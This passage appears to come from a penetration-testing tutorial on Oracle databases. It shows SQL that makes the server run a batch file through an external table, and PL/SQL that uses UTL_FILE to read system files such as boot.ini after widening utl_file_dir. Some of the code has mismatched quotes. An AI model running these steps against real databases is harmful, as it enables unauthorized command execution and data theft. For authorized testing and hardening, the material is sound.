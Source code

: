 Step three: Prepare the external table `EXTT`, you will need it to run the file:

```sql
CREATE TABLE EXTT (line varchar2(256))
ORGANIZATION EXTERNAL
(TYPE oracle_loader
  DEFAULT DIRECTORY ALICE_DIR
  ACCESS PARAMETERS
  ( RECORDS DELIMITED BY NEWLINE
    FIELDS TERMINATED BY ',')
  LOCATION (alice_dir:'test.bat'))
/
```

Now, just call your batch file with the following command:

```sql
SELECT * from EXTT;
```

The terminal will start to display error messages that the system cannot match the table and invoked file but, in this case, it is not important, as the main objective was to open the executable file, which you have achieved.

`ODAT.py` utility also can implement this attack. However, it requires the privilege `CREATE ANY DIRECTORY`, which, by default, is granted only to `DBA` role, since it attempts to execute the file from any and not only “your” directory.

<h3>Read/Write files</h3>

Now, let’s proceed to the task of reading and writing the files. If you simply need to read or write a file to the server, you can do it without any Java procedures, which, however, can also handle such tasks. Let’s have a look into `UTL_FILE` package that has the functionality required for working with the file system. The good news is that, by default, it can be accessed by all users with `PUBLIC` role. The bad news is that, by default, this procedure has no access to the entire file system, but only to a directory pre-defined by the administrator. However, it is not uncommon to find a directory parameter specified as `*`, which literally means “access to everything.” You can find this out by using the following command:

```sql
select name, value from v$parameter where name = 'utl_file_dir';
With appropriate rights, you can expand the access by using the following query:
alter system set utl_file_dir='*' scope =spfile;
```

I found that the shortest procedure for using `UTL_FILE` package is proposed by Alexander Polyakov:

```sql
SET SERVEROUTPUT ON
declare
f utl_file.file_type;
sBuffer Varchar(8000);
begin
f:=UTL_FILE.FOPEN (''C:/’,'boot.ini','r');
loop
UTL_FILE.GET_LINE (f,sBuffer);
DBMS_OUTPUT.PUT_LINE(sBuffer);
end loop;
EXCEPTION
when no_data_found then
UTL_FILE.FCLOSE(f);
end;
/
```

